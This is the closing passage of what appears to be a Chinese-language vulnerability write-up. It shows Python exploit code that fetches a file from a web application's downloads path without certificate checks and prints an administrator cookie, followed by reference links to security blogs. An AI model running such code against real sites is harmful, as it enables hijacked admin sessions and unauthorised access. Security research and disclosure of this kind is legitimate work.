     #print("[*] Request Result:")
    s = requests.session()
    r = s.get(base_url+"/downloads/"+filename,verify=False,headers=headers)
    #print(r.text)
    print("[*] 管理员cookie")
    print(headers['Cookie'])

参考链接
--------

> https://www.cnblogs.com/dgjnszf/p/10793604.html
>
> https://xz.aliyun.com/t/7991\#toc-1
